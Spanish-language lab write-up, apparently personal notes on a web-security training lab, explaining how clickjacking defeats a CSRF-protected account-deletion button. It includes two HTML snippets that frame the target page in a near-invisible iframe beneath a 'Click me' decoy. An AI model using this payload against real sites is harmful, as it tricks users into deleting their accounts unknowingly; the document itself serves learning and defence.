 Este laboratorio muestra cómo realizar un ataque de clickjacking incluso cuando la acción sensible está protegida por un token CSRF. Se aprovecha la falta de encabezados de protección como X-Frame-Options para incrustar la página vulnerable dentro de un iframe en un sitio externo.

La estrategia consiste en superponer un elemento visual atractivo como un botón que diga Click me justo encima del botón de eliminar cuenta. Para ello se ajustan las propiedades de posición, tamaño y opacidad del iframe de forma que el usuario, al intentar hacer clic en el contenido visible del sitio señuelo, en realidad pulse sobre la acción destructiva del sitio objetivo.

Este tipo de ataque es posible cuando no existen medidas que impidan la carga del sitio objetivo en iframes de terceros, y es aún más efectivo cuando el usuario realiza la acción de manera involuntaria al seguir una instrucción aparentemente inofensiva como haz clic aquí.

Este laboratorio permite comprender cómo técnicas visuales engañosas pueden ser tan efectivas como vulnerabilidades técnicas si la interfaz no está debidamente protegida.

------

Este lab es para cuando la victima haga click, se borre su cuenta, por ello creamos un iframe con la pagina principal


```html
<style>
    iframe{
        width: 500px;
        height: 500px;
        opacity: 0.1;
    }
    div{
        position: relative;
        top: 550px;
        left: 35px;
    }
</style>
<div>testeando</div>
<iframe src="http://burpsuite.com"></iframe>
```

Ahora que ya tenemos la idea que queremos hacer, pasamos a lo siguiente:

```html
<style>
    iframe{
        width: 500px;
        height: 500px;
        opacity: 0.01; /*Para que no sea casi visible*/
    }
    div{
        position: absolute;
        top: 550px;
        left: 40px;
    }
</style>
<div>Click me</div>
<iframe src="http://burpsuite.com"></iframe>
```